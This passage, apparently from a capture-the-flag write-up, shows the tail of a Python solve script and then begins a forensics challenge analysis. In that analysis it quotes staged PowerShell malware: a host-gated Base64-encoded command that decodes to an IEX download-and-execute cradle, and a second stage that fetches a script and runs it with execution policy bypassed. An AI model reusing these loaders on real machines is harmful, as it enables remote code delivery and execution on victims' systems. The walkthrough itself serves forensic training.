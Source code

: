 ```python
                break
    return recovered

conn = remote('83.136.254.234', 56453)

password = recover_password(conn)
print(f"Recovered password: {password}")
print(send_value(conn, 2, password))
```

# Forensics

## Thorin's Amulet
### Stage 1

At the beginning of this task, we are presented with a `PowerShell` script.

```powershell
function qt4PO {
    if ($env:COMPUTERNAME -ne "WORKSTATION-DM-0043") {
        exit
    }
    powershell.exe -NoProfile -NonInteractive -EncodedCommand "SUVYIChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCJodHRwOi8va29ycC5odGIvdXBkYXRlIik="
}
qt4PO
```

The script defines a method and calls it. The method itself spawns a new `powershell.exe` process to execute an encrypted command. The used encryption is only `Base64`, so we can easily decrypt it to get the following code:

```powershell
IEX (New-Object Net.WebClient).DownloadString("http://korp.htb/update")
```

This command downloads some code from `http://korp.htb/update`, and executes it, using `IEX`

### Stage 2

If we visit the `URL` above, we will find the following script:

```powershell
function aqFVaq {
    Invoke-WebRequest -Uri "http://korp.htb/a541a" -Headers @{"X-ST4G3R-KEY"="5337d322906ff18afedc1edc191d325d"} -Method GET -OutFile a541a.ps1
    powershell.exe -exec Bypass -File "a541a.ps1"
}
aqFVaq
```

Once again, it downloads a `.ps1` file and executes it. This time we need to make sure to include the header to get the correct script.
